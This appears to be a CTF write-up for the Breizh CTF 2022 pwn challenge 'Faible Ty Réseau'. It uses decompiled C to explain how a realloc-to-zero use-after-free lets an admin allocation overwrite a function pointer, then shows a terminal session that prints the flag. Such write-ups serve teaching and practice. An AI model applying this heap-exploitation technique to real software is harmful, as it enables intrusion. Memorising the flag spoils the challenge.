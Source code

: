 +++                                                                           
title = "[Breizh CTF 2022 - pwn] Faible Ty Reseau"                  
tags = ["ctf", "ret2school", "Breizh CTF", "nasm", "pwn", "2022"]      
date = "2022-03-04"    
+++

Faible Ty Réseau is a basic heap-like challenge, it allows us to create a configuration, edit it, call a function pointer on it and finally to free it:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  while ( 1 )
  {
    puts(aVousN);
    printf(a1ModifierLesPa, argv);
    fflush(stdout);
    v4 = 0;
    argv = &v4;
    __isoc99_scanf(&unk_21F3, &v4);
    switch ( v4 )
    {
      case 0:
        printf("wtf ?");
        fflush(stdout);
        break;
      case 1:
        create();
        break;
      case 2:
        delete();
        break;
      case 3:
        exec();
        break;
      case 4:
        show();
        break;
      case 5:
        exit(0);
      default:
        continue;
    }
  }
}
```

They are many ways to pwn the challenge, I did it by taking advantage of the UAF in `create`:
```c
__int64 create()
{
  int v1; // [rsp+4h] [rbp-1Ch]
  int v2; // [rsp+8h] [rbp-18h]
  void *buf; // [rsp+10h] [rbp-10h]
  void *v4; // [rsp+18h] [rbp-8h]

  if ( !ptr )
  {
    ptr = malloc(0x18uLL);
    byte_4104 = 1;
  }
  buf = calloc(0x19uLL, 1uLL);
  write(1, "New hostname : ", 0x10uLL);
  v1 = read(1, buf, 0x18uLL);
  *(buf + v1) = 0;
  v4 = calloc(0x19uLL, 1uLL);
  printf("\nNew host : ");
  fflush(stdout);
  v2 = read(1, v4, 0x18uLL);
  *(v4 + v2) = 0;
  fflush(stdout);
  if ( byte_4104 != 1 )
  {
    fflush(stdout);
    realloc(ptr, v1 + v2 - 2);
    *ptr = buf;
    *(ptr + 1) = v4;
    *(ptr + 2) = sub_1259;
  }
  byte_4104 = 0;
  *ptr = buf;
  *(ptr + 1) = v4;
  *(ptr + 2) = sub_1259;
  fflush(stdout);
  alloc_admin();
  return 0LL;
}
```

As we can see, if ptr is not `NULL` and that we enter only one byte for each read (by sending only \n for example), then we will trigger a `realloc(ptr, 1 + 1 - 2)` which frees `ptr`, `ptr` being freed the freelist is pointing on `ptr`. Now let's take a look at the `alloc_admin` function:
```c
__int64 alloc_admin()
{
  char *v1; // [rsp+0h] [rbp-10h]
  char *v2; // [rsp+8h] [rbp-8h]

  fflush(stdout);
  qword_40F8 = malloc(0x18uLL);
  fflush(stdout);
  v1 = malloc(0xAuLL);
  fflush(stdout);
  strcpy(v1, "Admin");
  fflush(stdout);
  v2 = malloc(0xAuLL);
  fflush(stdout);
  strcpy(v2, "000000000");
  fflush(stdout);
  *qword_40F8 = v1;
  *(qword_40F8 + 8) = v2;
  *(qword_40F8 + 16) = win;
  fflush(stdout);
  return 0LL;
}
```

By allocating `0x18` bytes, it gets the previous freed `ptr` and writes over a few fields like the function pointer. Then we just have to call the `exec` function which will call the win function:
```c
int exec()
{
  if ( ptr )
    return (*(ptr + 2))();
  printf("Pas de configuration !");
  return fflush(stdout);
}
```

Which gives us:
```
nasm@off:~/ctf/bzhCTF/pwn$ ./FTM
Vous n'êtes pas connecté (anonyme)
1. Modifier les paramètres de connexion
2. Restaurer la configutation d'usine
3. Tester la configuration
4. Voir la configuration courante
5. Quitter (au revoir !)
>>>> 1
New hostname : dumb

New host : dumb
Vous n'êtes pas connecté (anonyme)
1. Modifier les paramètres de connexion
2. Restaurer la configutation d'usine
3. Tester la configuration
4. Voir la configuration courante
5. Quitter (au revoir !)
>>>> 1
New hostname : 

New host : 
Vous n'êtes pas connecté (anonyme)
1. Modifier les paramètres de connexion
2. Restaurer la configutation d'usine
3. Tester la configuration
4. Voir la configuration courante
5. Quitter (au revoir !)
>>>> 3
BZHCTF{9024b719d4449bc9827478e50f0279427ccb542cc3ecdec21fce38c52b29561c}
```
